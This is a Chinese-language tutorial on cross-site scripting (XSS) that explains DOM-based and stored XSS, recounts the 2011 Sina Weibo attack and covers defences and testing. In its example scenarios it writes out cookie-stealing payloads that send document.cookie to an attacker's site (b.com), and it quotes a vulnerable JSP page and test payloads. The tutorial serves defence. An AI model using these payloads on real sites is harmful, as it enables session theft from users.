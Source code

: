 ##WEB安全-XSS攻击

###一、背景知识

1、什么是XSS攻击？

XSS攻击：跨站脚本攻击（Cross Site Scripting），为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆。故将跨站脚本攻击缩写为XSS。跨站脚本攻击，是Web程序中常见的漏洞，XSS属于被动式且用于客户端的攻击方式，所以容易被忽略其危害性。其原理是攻击者在网页中嵌入恶意代码(例如JavaScript)，当其它用户浏览该网站时，这段代码会自动执行，从而达到攻击的目的。比如这些代码包括HTML代码和客户端脚本。对于跨站脚本攻击，黑客界共识是：跨站脚本攻击是新型的"缓冲区溢出攻击"，而JavaScript是新型的"ShellCode"。

XSS并不限于可见的页面输入，还有可能是隐藏表单域、get请求参数等。

2、XSS攻击的危害：

盗取用户 Cookie、破坏页面结构、导航到恶意网站、获取浏览器信息、携带木马等。

###二、XSS漏洞的分类

XSS漏洞按照攻击利用手法的不同，有以下三种类型：

　　XSS攻击类似于SQL注 入攻击，攻击之前，我们先找到一个存在XSS漏洞的网站，XSS漏洞分为两种，一种是DOM Based XSS漏洞，另一种是Stored XSS漏洞。理论上，所有可输入的地方没有对输入数据进行处理的话，都会存在XSS漏洞，漏洞的危害取决于攻击代码的威力，攻击代码也不局限于 script。

1、DOM Based XSS

DOM Based XSS是一种基于网页DOM结构的攻击，该攻击特点是中招的人是少数人。

场景一：

当我登录a.com后，我发现它的页面某些内容是根据url中的一个叫content参数直接显示的，猜测它测页面处理可能是这样，其它语言类似：

```html
<%@ page language="java"contentType="text/html; charset=UTF-8"pageEncoding="UTF-8"%>
<!DOCTYPEhtmlPUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN""http://www.w3.org/TR/html4/loose.dtd">
<html>
    <head>
        <title>XSS测试</title>
    </head>
    <body>
        页面内容：<%=request.getParameter("content")%>
    </body>
</html>
```
我知道了Tom也注册了该网站，并且知道了他的邮箱(或者其它能接收信息的联系方式)，我做一个超链接发给他，超链接地址 为：http ://www.a.com?content= &lt;script&gt; window.open(“www.b.com?param=”+document.cookie)&lt;/script&gt;，当Tom点击这个链 接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是我 搭建的网站，当我的网站接收到该信息时，我就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！这个过程中， 受害者只有Tom自己。那当我在浏览器输入a.com?content=&lt;script&gt;alert(“xss”)&lt;/script&gt;，浏览器展示页面内容的过程中，就会执行我的脚本，页面输出xss字样，这是攻击了我自己，那我如何攻击别人并且获利呢？

2、Stored XSS

Stored XSS是存储式XSS漏洞，由于其攻击代码已经存储到服务器上或者数据库中，，比如发布一篇文章包含恶意代码，其他用户浏览时将执行恶意脚本，所以受害者是很多人。

场景二：

a.com可以发文章， 我登录后在a.com中发布了一篇文章，文章中包含了恶意代 码，&lt;script&gt;window.open(“www.b.com?param=”+document.cookie)&lt; /script&gt;，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务 器上，攻击成功！这个过程中，受害者是多个人。
Stored XSS漏洞危害性更大，危害面更广。

3、攻击事例
2011年新浪微博的XSS攻击就是存储式XSS漏洞攻击，主要是通过未过滤处理的URL中的参数来加载攻击者已写好的脚本，并且使用短链服务将URL伪装，然后通过诱人的话题欺骗用户访问该链接后在浏览器运行，达到攻击的目的。如将http ://163.fm/PxZHoxn指向 http ://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update。所以我们应该严防短链接。

三、XSS防御

我们是在一个矛盾的世界中，有矛就有盾。只要我们的代码中不存在漏洞，攻击者就无从下手，我们要做一个没有缝的蛋。

XSS 漏洞修复

>原则： 不相信客户输入的数据
>注意： 攻击代码不一定在&lt;script&gt;&lt;/script&gt;中将重要的cookie标记为http only,这样的话 Javascript 中的 document.cookie 语句就不能获取到 cookie 了.需要对用户的输入进行处理，只允许用户输入我们期望的数据，其它值一概过滤掉。例如：　年龄的textbox中，只允许用户输入数字。 而数字之外的字符都过滤掉。对数据进行Html Encode 处理过滤或移除特殊的Html标签， 例如: &lt;script&gt;, &lt;iframe&gt; ,  &lt; for <, &gt; for >, &quot; for过滤 JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。

XSS具体的防御有如下方式：

1. 输入校验
对用户的所有输入数据进行检测，比如过滤其中的“<”、“>”、“/”、双引号等可能导致脚本注入的特殊字符，或者过滤“script”、 “javascript”等脚本关键字，或者对输入数据的长度及格式进行限制等等。同时，我们也要考虑用户可能绕开ASCII码，使用十六进制编码如 “<”/span“>”（“<”）、“>”（“>”）等来输入脚本。因此，对用户输入的十六进制编码，我们也要进行相应的过滤。只要开发人员能够严格检测每一处交互点，保证对所有用户可能的输入都进行检测和XSS过滤，就能够有效地阻止XSS攻击。

2. 输出编码
通过前面对XSS攻击的分析，我们可以看到，之所以会产生XSS攻击，就是因为Web应用程序将用户的输入直接嵌入到某个页面当中，作为该页面的 HTML代 码的一部分。因此，当Web应用程序将用户的输入数据输出到目标页面中时，只要先对这些数据进行编码，然后再输出到目标页面中。这样，如果用户输入一些 HTML的脚本，也会被当成普通的文字，而不会成为目标页面HTML代码的一部分得到执行。

3. 严防外部的Javascript
外部的Javascript一旦引入了，这些脚本就能够操纵你的HTML页面，窃取敏感信息或者发起钓鱼攻击等等。

四、如何测试XSS漏洞

方法一：查看代码，查找关键的变量,   客户端将数据传送给Web 服务端一般通过三种方式 Querystring, Form表单，以及cookie.  例如在ASP的程序中，通过Request对象获取客户端的变量
```c#
<%
strUserCode =  Request.QueryString(“code”);
strUser =  Request.Form(“USER”);
strID =    Request.Cookies(“ID”);
%>
```
假如变量没有经过htmlEncode处理， 那么这个变量就存在一个XSS漏洞

方法二：　准备测试脚本

    <script>alert(document.cookie)</script>
    "onclick="alert(document.cookie)"

在网页中的Textbox或者其他能输入数据的地方，输入这些测试脚本， 看能不能弹出对话框，能弹出的话说明存在XSS漏洞在URL中查看有那些变量通过URL把值传给Web服务器， 把这些变量的值退换成我们的测试的脚本。  然后看我们的脚本是否能执行

方法三:  自动化测试XSS漏洞

现在已经有很多XSS扫描工具了。 实现XSS自动化测试非常简单，只需要用HttpWebRequest类。 把包含xss 测试脚本。发送给Web服务器。 然后查看HttpWebResponse中，我们的XSS测试脚本是否已经注入进去了。

五、HTML Encode

XSS之所以会发生， 是因为用户输入的数据变成了代码。 所以我们需要对用户输入的数据进行HTML Encode处理。 将其中的"中括号"， “单引号”，“引号” 之类的特殊字符进行编码。在C#中已经提供了现成的方法，只要调用HttpUtility.HtmlEncode("string &lt;scritp&gt;") 就可以了。  （需要引用System.Web程序集）

六、浏览器中的XSS过滤器

为了防止发生XSS， 很多浏览器厂商都在浏览器中加入安全机制来过滤XSS。 例如IE8，IE9，Firefox, Chrome. 都有针对XSS的安全机制。 浏览器会阻止XSS。 

如果需要做测试， 最好使用IE7。

Chrome可以过滤反射型XSS，原因是webkit的一个模块,而非chrome,所以Safari和360安全浏览器极速模式等webkit内核的浏览器都有XSS过滤功能.
